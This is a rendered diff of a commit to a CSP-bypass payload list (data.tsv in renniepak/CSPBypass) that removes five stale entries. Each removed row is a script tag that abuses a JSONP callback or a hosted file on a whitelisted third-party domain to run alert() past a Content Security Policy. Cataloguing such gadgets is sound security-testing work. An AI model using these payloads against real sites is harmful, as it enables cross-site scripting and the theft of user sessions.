

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Removed bypasses that no longer work. Made some small changes to ones that need https or had syntax errors.

```diff
--- a/data.tsv
+++ b/data.tsv
-row 146: reveal.clearbit.com | <script src="https://reveal.clearbit.com/v1/companies/reveal?authorization=pk_5fdce9b9374f2f8a4f8c9f4a1546fa35&callback=alert"></script>
-row 152: secure.adnxs.com | <script src="https://secure.adnxs.com/getuidp?callback=alert(1)"></script>
-row 167: storage.googleapis.com | <script src="https://storage.googleapis.com/bypass_csp/xss.js"></script>
-row 217: www.roblox.com | <script src="https://www.roblox.com/item-thumbnails?params=[{assetId:1}]&jsoncallback=alert"></script>
-row 228: zhuanjia.sogou.com | <script src="https://zhuanjia.sogou.com/base/ajax/login/login-init?callback=alert(1)-"></script>
```
Also changed, not shown: 14 removed rows and 3 edited cells elsewhere in this file, 1 other file.
